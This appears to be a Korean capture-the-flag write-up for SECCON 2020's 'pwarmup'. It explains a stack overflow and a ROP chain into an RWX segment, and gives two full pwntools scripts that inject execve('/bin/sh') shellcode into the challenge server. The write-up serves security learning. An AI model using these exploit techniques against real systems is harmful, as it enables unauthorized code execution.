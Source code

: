 # pwarmup
### #rwx_segment #rop #pwn #pwntools



rop 상황에서 pwntools 의 사용을 극대화 시킬 수 있었던 문제. 

![sec](../../.images/pwarmup1.png)

우선 보호기법을 확인해보니 **RWX** 권한이 있는 영역이 있다고 한다.

**gdb** 로 확인해보면, `0x600000` 부분부터 `0x601000` 까지 **rwx** 권한이 있음을 알 수 있다. NX 도 안걸려있고, 저 부분이 쉘코드를 올릴 자리임을 알 수 있었다.

![vmmap](../../.images/pwarmup2.png)

바이너리의 코드를 확인해보자.

```C
/*
    main.c
*/
#include <unistd.h>
#include <stdio.h>

int main(void) {
  char buf[0x20];
  puts("Welcome to Pwn Warmup!");
  scanf("%s", buf);
  fclose(stdout);
  fclose(stderr);
}

__attribute__((constructor)) // main 보다 먼저실행
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  alarm(60);
}

```

간단한 코드이다. 가젯확인결과 바이너리에 쓸만한 가젯들도 있고, rop 를 시전할 수 있을 것 같았다. 하지만, **libc** 를 leak 할만한 함수가 보이지 않아서 **libc** 를 이용하는 것은 생각하지않았다.

여기서 사용한 전략은 이렇다.

> BOF -> ROP gadget 을 이용한 `scanf("%s",0x600000);` 실행 -> scanf 실행 뒤에 `execve("/bin/sh");` 쉘코드 입력 -> 0x600000 실행

![gdb](../../.images/pwarmup3.png)

위의 전략대로 익스플로잇 코드를 짜고 로컬에서 실행해보았는데, 로컬에서 안되는 바람에 한참 막혔다.

아무리 명령어를 쳐도 결과물이 보이지않는다. 나중에 `fclose(stdout)` 때문이라는 것을 알았고, `ls>&0` 로 살아있는 `stdin` 디스크립터에 출력을 리다이렉트 시켜서 플래그를 얻을 수 있었다.

![res](../../.images/pwarmup4.png)


```python
from pwn import *
context.arch='amd64'
elf=ELF("./chall")
scanf_plt=elf.plt['__isoc99_scanf']
scanf_arg0=0x40081B # "%s"
prdi=0x4007e3
prsi=0x4007e1
rwx=0x600000 # ~~ELF~~~ => starting point of binary
shellcode="\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
#s=process("./chall")
s=remote('pwn-neko.chal.seccon.jp',9001)
pause()
payload=b"a"*40
payload+=p64(prdi)
payload+=p64(scanf_arg0)
payload+=p64(prsi)
payload+=p64(rwx)
payload+=p64(0xdeadbeef)
payload+=p64(scanf_plt)
payload+=p64(rwx)
s.sendline(payload) # scanf in 0x600000 (rwx segment)
s.sendline(shellcode) # shellcode in 0x600000
s.interactive()
```



***\* 해당 [write up](https://github.com/mephi42/ctf/blob/master/2020.10.10-SECCON_2020_Online_CTF/pwarmup/pwnit.py) 을 참고하여 추가정리***

막판에 `stdout` 을 대처하는 방법이 위 링크에 있었다.

glibc 함수 중에는 인자로 오는 파일 디스크립터를 복붙해주는 `dup(arg)` 함수가 있는데, 이를 `stdin` 을 인자로 하여 syscall 로 호출하면 `stdout` 이 사용하는 1번 파일 디스크립터에 `stdin` 이 복사되어 소켓통신 중에 출력을 온전하게 볼 수 있다.
해당 풀이자의 익스 코드는 아래와 같다.

```python
#!/usr/bin/env python3
from pwn import *

BINARY = 'pwarmup/chall'


def connect():
    if args.LOCAL:
        return gdb.debug([BINARY], gdbscript='''
b *0x400707
c
''')
    else:
        return remote('pwn-neko.chal.seccon.jp', 9001)


def main():
    context.arch = 'amd64'
    percent_s = 0x40081B
    rwx = 0x600000
    rop = ROP([ELF(BINARY)])
    rop.call('__isoc99_scanf', [percent_s, rwx])
    rop.raw(rwx)
    rop = rop.chain()
    shellcode = asm(
        '''mov rax, 31
        inc rax
        xor rdi, rdi
        syscall
''' +
        shellcraft.amd64.linux.sh(),
        arch='amd64')
    #main_addr = 0x4006B7
    #puts_plt_addr = 0x400580
    #pop_rdi_ret_addr = 0x4007e3
    #puts_got_addr = 0x4006B7  # 0x600BB8
    whitespace = b'\x0a\x0b\x20'
    assert all(c not in rop for c in whitespace)
    assert all(c not in shellcode for c in whitespace)
    with connect() as tube:
        tube.sendline(flat({0x28: rop}))
        tube.sendline(shellcode)
        tube.interactive()  # SECCON{1t's_g3tt1ng_c0ld_1n_j4p4n_d0n't_f0rget_t0_w4rm-up}


if __name__ == '__main__':
    main()
```

.

.

.

**Contact:** a42873410@gmail.com



